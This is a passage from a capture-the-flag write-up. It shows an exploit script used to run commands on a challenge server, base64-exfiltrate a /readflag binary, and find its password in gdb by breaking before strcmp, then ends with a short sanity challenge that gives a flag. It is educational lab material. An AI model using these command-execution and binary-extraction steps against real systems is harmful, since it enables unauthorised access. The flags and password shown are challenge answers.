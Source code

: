 Oh shoot it's not. Hmm we might need to download this binary and analyse it. To do so, we can use the `base64` command.

```bash
$ python exploit.py "base64 /readflag"
Command Output:
...
(Too long so I left it out)
...
```

And on our machine, we can decode it again and save it to a file.

```bash
$ base64 -d strings_output > readflag
```

Using `gdb`, we can set a breakpoint before the `strcmp()` call and view the stack to get the password

```
$ gdb -q --args ./readflag P4S5W0RD
(gdb) disassemble main
...
   0x000000000000122b <+166>:   callq  0x1070 <strcmp@plt>
...
(gdb) b *(main+166)
Breakpoint 1 at 0x122b
(gdb) r
Starting program: /home/kali/Desktop/readflag PASSWORD

Breakpoint 1, 0x000055555555522b in main ()
(gdb) x/20s $rsp
...
0x7fffffffddf7: "SDP450WR"
```

It seems that the correct password is `SDP450WR`! 

```bash
$ python exploit.py "/readflag SDP450WR"
Command Output: 
FLAG{7HI5_I5_4N07h3r_Fl49}
```

<hr>

# Sanity

## Sanity (50 pts)

```
This challenge is to test that you know how to use the submission platform.
The Flag is flag{computing_2020}
```
